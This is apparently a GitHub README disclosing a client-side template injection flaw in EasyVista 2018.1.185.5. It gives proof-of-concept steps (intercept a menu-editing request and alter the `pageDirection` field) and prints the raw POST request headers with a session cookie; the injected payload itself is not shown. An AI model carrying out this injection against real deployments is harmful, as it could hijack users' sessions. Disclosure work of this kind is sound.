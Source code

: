 # EasyVista

## easyvista 2018.1.185.5 - CVE-XXX 

* Description : Client Side Template Injection
* Affected version : 2018.1.185.5

### Information

To make this PoC, I just installed the software (`https://www.easyvista.com/`)

* Vulnerability Type : CSTI (because using Angular 1.6)

### POC 

First of all, you can check your version using this URL `xxx.com/version` you will have this kind of output :

<img width="1280" alt="version" src="https://raw.githubusercontent.com/jenaye/EasyVista/master/version.png">


While logged in, you can now edit your menu, by clicking on "add new field".
Just intercept the request and change the value of the key `pageDirection` like in the following exemple :


```
POST /s/index.php?timestamp=1600176252228&name=com.xxxx.5f084ca4b1ac6&ajax&user=nepasrepondre%xxxx.com&action=call|fetchContent&urlid=%7B%22id%22%3A%221614674865e41c00ae6f85%22%2C%22fqdn%22%3A%22com.easyvista.core.plugdb.PlugDBEasyvista%22%2C%22nav%22%3A%22%7Cfirst%22%7D HTTP/1.1
Host: xxxx.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/plain, */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://b4help.xxxx.team/s/portail
Content-Type: application/json;charset=utf-8
Content-Length: 4907
Origin: https://b4help.xxxx.team
Connection: close
Cookie: PHPSESSID=a02fabf994eedfca123cc5330e30456c; com.xxxx.5f084ca2c2c6=5e46af4ABC

```
